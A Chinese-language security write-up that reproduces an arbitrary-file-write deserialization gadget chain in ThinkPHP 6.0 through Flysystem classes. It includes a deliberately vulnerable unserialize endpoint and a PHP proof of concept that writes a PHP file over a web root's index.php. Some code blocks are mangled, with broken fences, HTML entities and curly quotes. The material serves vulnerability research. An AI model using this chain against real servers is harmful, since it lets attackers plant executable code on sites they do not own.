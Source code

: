```yaml
---
title: Thinkphp 6.0 任意文件写入pop链
id: zhfly3173
---
```


# Thinkphp 6.0 任意文件写入pop链

## 一、漏洞简介

需要知晓绝对路径

## 二、漏洞影响

Thinkphp 6.0

## 三、复现过程

### 环境搭建

ThinkPHP6.0.2

PHP7.2

```
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController

```
public function test(){
    echo base64_decode($_POST['payload']);
    $payload = unserialize(base64_decode($_POST['payload']));
} 
``` `}` 
```

### 漏洞分析

POP链：

```
League\Flysystem\Cached\Storage\AbstractCache --> destruct()
League\Flysystem\Cached\Storage\Adapter --> save()
League\Flysystem\Adapter\Local --> write()
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php 
```

![image](../img/a7857f16bdb35b974425b4189728e78d.png)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![image](../img/2f7b35acc875f9b281ac040cdec4cec3.png)

$contents决定文件写入内容，显然可向$this->complete或$this->expire写入具体内容即可

![image](../img/42fae2a54885f5acb8c04efcf189d754.png)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![image](../img/d034c5997d690f596aa28aaed93e591f.png)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![image](../img/ed083267ed0aef949f9f2ccdd4a1d1ce.png)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

```
<?php
namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
	protected $autosave = true;
	protected $cache = [];
	protected $complete = [];
	function __construct(){
		$this->autosave = false;
		$this->cache = ['test'];
		$this->complete = ["axin"=>"<?php phpinfo();?>"];
	}
}

class Adapter extends AbstractCache{

protected $adapter;

protected $file;

protected $expire = null;

```
function __construct(){
	parent::__construct();
	$this-&gt;adapter = new Local();
	$this-&gt;file = "var/www/html/index.php";
    #$this-&gt;file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
	$this-&gt;expire = 123;
} 
```

}

namespace League\Flysystem\Adapter;

abstract class AbstractAdapter{

protected $pathPrefix;

function __construct(){

$this->pathPrefix = “/”;

#$this->pathPrefix = “D”;  #windows下目录

}

}

class Local extends AbstractAdapter{ `}

use League\Flysystem\Cached\Storage\Adapter;

echo base64_encode(serialize(new Adapter()));` 
```

![image](../img/f39f8a08d42bb6db348eda281091281b.png)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![image](../img/9db8520ab2063900e0eb1ba5cf89a1db.png)

文件成功写入：

![image](../img/2c772bddc271398993f6ad9096f735bf.png)

## 参考链接

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/

> https://www.anquanke.com/post/id/194269